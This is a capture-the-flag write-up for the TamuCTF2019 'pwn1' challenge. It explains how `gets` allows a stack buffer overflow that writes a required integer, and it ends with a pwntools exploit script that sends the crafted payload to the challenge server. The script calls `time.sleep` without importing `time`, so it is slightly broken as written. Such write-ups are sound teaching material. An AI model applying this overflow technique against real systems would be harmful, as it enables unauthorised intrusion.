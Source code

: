 
# pwn1

This is an easy pwn challenge from TamuCTF2019.

The challenge reproduces the bridge scene from Monty Python and the Holy grail. The user gets asked for their name, quest, and a secret.

Running `strings` on the Linux 32-bit binary gives the name and quest. Next, after the secret gets asked for, a check gets done against the integer 3735097544. Easy enough, but the user input doesn't get written to the same place as where the integer is looked for on the stack. A quick inspection of the code shows that `gets` is used to accept user input for the third question, and so it's a simple matter of overflowing the stack and writing the requisite integer to the correct location.

Here's the stack after I enter "AAAAAAAA\n". The desired integer should be at `$ebp-0x10`, according to the assembly language for the executable.

![./stack.png](./stack.png)

Looks like I need 43 bytes of junk, followed by the integer.

That gives me the flag! Easy problem.

![./flag.png](./flag.png)

Here is the exploit code:

```
# Solve pwn1.py

from pwn import *
from time import sleep

DELAY = 0.5

p = remote('pwn.tamuctf.com', 4321)

sleep(DELAY)
p.send("Sir Lancelot of Camelot\n")
sleep(DELAY)
p.send("To seek the Holy Grail.\n")
time.sleep(2)
p.send("A"*43 + p32(0xDEA110C8) + "\n")
p.interactive()
```
